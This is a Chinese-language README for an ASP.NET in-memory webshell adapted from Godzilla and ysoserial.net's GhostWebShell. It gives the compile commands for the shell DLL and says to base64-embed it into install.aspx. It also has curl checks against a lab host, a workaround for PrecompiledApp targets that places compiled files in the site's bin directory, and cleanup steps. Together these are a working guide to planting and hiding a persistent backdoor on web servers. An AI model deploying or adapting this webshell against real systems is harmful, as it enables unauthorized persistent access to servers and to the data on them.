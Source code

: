 # Memshell-VirtualPath
## 说明
`GhostWebShell.cs` 为Yso.net里面的代码，地址：[这里](https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs)，在这不做过多介绍。

`memshell.cs` 代码来源于 Godzilla-4.01 `shells/plugins/cshap/assets/memoryShell.dll`，做了一些小的修改。以下说明均为`memshell.cs`的使用方式。

代码中需要修改的点
```
input_key  为Godzilla 里面的key
pass       为Godzilla 里面的pass
```

## 编译

**dll**
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Web.dll,System.dll,Microsoft.CSharp.dll,System.Core.dll /t:library memshell.cs
```

## 使用
编译dll, base64编码以后，替换`install.aspx`中的`%%base64%%`字符串。
反序列操作，可参考: [渗透技巧-利用虚拟文件隐藏ASP.NET-Webshell](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8%E8%99%9A%E6%8B%9F%E6%96%87%E4%BB%B6%E9%9A%90%E8%97%8FASP.NET-Webshell)。

**验证：**
```
curl http://10.211.55.201/random.aspx -k -H "Type: print"
curl http://10.211.55.201/random.aspx/xxx -k -H "Type: print"
```
![](../assets/16387937389229.jpg)


**Godzilla**
添加对应HTTP头即可。
AES_RAW

![](../assets/16384242085416.jpg)

AES_BASE64

![](../assets/16384242790653.jpg)

### PrecompiledApp

如目标开启了`PrecompiledApp`，上传aspx会碰到这样的报错：
![](../assets/16387943196296.jpg)

这个时候需要编译我们的aspx，再上传，编译：
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_compiler.exe -v \ -p 1 2 -fixednames
```

![](../assets/16387944206523.jpg)

再将我们编译好的bin目录下的内容，丢到网站的bin目录即可。

![](../assets/16387944736561.jpg)

访问以后，可通过上面的方式访问shell，另外，其他上传其他的aspx文件，无需再编译上传即可正常访问，收工后，`删掉bin目录下上图的两个文件`，shell`不可访问`, 其他自己上传的aspx文件也`需要编译`才可访问。

### bypassFriendlyUrlRoute
Godzilla的实现与[GhostWebShell](https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs#L43)中的实现方法是一样的。 如果需要，去掉代码里的注释即可。


